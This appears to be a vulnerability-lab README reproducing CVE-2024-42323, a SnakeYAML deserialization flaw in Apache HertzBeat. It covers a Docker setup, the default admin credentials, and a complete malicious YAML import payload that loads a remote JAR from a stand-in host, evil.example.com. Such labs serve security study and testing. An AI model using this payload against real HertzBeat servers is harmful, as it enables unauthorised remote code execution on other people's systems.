 # Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring and alarm tool that supports monitoring of operating systems, middleware, databases, and more through its web interface. 

In versions prior to 1.6.0, HertzBeat uses a vulnerable version of SnakeYAML library for parsing YAML files. When authenticated users import new monitoring types through the `/api/monitors/import` or `/api/alert/defines/import` APIs, they can provide specially crafted YAML content that triggers deserialization of untrusted data, potentially leading to remote code execution on the target system.

References:

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## Environment Setup

Execute the following command to start a vulnerable HertzBeat 1.4.4 instance:

```
docker compose up -d
```

After the service is started, you can access the HertzBeat dashboard at `http://your-ip:1157/dashboard`. The default login credentials are:

- Username: `admin`
- Password: `hertzbeat`

## Vulnerability Reproduction

First, you need to compile the yaml-payload project available at <https://github.com/fei9747/yaml-payload/>, and host the generated JAR file on a web server, for example, `http://evil.example.com:4444/yaml-payload.jar`.

Log into the dashboard, navigate to any monitor page and locate the import button. The interface allows users to import monitor configurations through YAML files:

![Locate the import button](1.png)

We can craft a malicious YAML file that contains the following content, which attempts to load your malicious JAR file when deserialized:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

When the malicious YAML file is imported through the web interface, HertzBeat will attempt to deserialize its contents, triggering the remote class loading:

![Import the malicious YAML file](2.png)

If successful, the payload will execute on the target system. In this example, we can verify the execution by checking for the presence of a newly created file in the container:

![Verify code execution](3.png)
